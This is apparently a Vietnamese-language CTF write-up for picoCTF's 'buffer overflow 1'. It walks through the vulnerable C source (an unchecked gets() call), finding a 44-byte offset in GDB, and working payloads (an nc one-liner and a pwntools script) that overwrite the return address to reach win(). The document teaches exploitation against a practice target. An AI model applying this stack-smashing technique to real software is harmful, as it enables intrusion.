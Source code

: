 # buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào stack tại ô nhớ ghi địa chỉ trả về. Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. 
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Ở bài này, mô hình stack (tại hàm vuln) trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler hoặc do người ra đề cố tình sửa padding stack) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB

![image.png](image%202.png)

- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%203.png)

- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay

![image.png](image%204.png)

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:

![image.png](image%205.png)

- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi
